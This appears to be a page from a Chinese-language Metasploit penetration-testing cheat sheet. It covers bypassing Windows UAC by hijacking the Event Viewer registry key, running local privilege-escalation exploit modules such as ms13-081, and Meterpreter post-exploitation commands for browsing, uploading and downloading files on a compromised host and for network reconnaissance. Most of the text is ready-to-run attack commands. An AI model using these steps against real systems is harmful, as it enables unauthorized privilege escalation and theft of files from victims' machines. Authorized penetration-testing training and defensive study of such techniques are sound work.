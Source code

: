 - **通过 Eventvwr 注册表项**

    首先介绍一下这个模块,此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.此模块修改注册表项,但在调用 payload 后将清除该项.该模块不需要 payload 的体系架构和操作系统匹配.如果指定 EXE ::Custom,则应在单独的进程中启动 payload 后调用 ExitProcess().
    ```
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法.
```bash
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
```

### 内网渗透

**操作文件系统**
```bash
ls:列出当前路径下的所有文件和文件夹.
pwd 或 getwd:查看当前路径
search:搜索文件,使用 search -h查看帮助.
cat:查看文件内容,比如 cat test.txt.
edit:编辑或者创建文件.和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况.
rm:删除文件.
cd:切换路径.
mkdir:创建文件夹.
rmdir:删除文件夹.
getlwd 或 lpwd:查看自己系统的当前路径.
lcd:切换自己当前系统的目录.
lls:显示自己当前系统的所有文件和文件夹.
```

**上传和下载**
```bash
upload <file> <destination>     # 上传文件到 Windows 主机
# 注意:使用 -r 参数可以递归上传上传目录和文件

download <file> <path to save>  # 从 windows 主机下载文件
# 注意:Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```

**网络命令**
```bash
Ipconfig/ifconfig   # 查看目标主机 IP 地址;
arp –a              # 用于查看高速缓存中的所有项目;
route               # 打印路由信息;
netstat -na         # 可以显示所有连接的端口
```
